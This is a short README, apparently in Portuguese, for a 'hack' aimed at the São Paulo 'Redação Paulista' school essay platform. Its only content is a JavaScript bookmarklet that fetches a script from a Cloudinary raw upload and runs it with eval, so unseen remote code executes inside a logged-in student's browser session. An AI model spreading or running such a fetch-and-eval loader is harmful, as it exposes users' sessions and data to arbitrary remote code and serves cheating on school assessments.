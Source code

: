 # 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V12
- TÔ ARRUMANDO AINDA 😔 
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1748102827/redacaov12.js").then(t=>t.text()).then(eval);
```
